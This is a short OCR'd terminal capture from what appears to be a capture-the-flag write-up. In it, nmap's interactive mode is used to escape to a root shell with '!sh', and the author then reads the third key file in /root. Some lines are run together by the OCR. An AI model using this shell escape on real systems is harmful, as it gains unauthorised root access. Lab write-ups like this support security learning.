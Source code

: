 ```
nmap> !sh
!sh
# ls
ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv tmp  var
boot  etc  initrd.img  lib64  media   opt  root  sbin  sys usr  vmlinuz
# cd /root
cd /root
# ls
ls
firstboot_done key-3-of-3.txtcat key-3-of-3.txt
$$$$$$$$$$$$$$$$$$$$$$$$$$$ # root flag 
```
**By_sourabh_**
**😎Happy_kacking**
